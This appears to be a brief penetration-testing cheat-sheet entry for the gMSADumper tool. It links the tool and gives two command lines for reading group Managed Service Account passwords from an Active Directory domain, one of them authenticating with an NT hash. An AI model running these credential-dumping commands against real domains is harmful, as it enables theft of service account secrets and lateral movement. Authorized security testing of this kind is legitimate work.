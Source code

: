 ### Source
https://github.com/micahvandeusen/gMSADumper  

### Read all gMSA passwords from any possible computer
```
python3 gMSADumper.py -u <user> -p <password> -d <domain>
```

### Read all gMSA password from any possible using NT hash and specific domain controller
```
python3 gMSADumper.py -u <user> -p <lmHash:ntHash> -d <domain> -l <rhost>
```

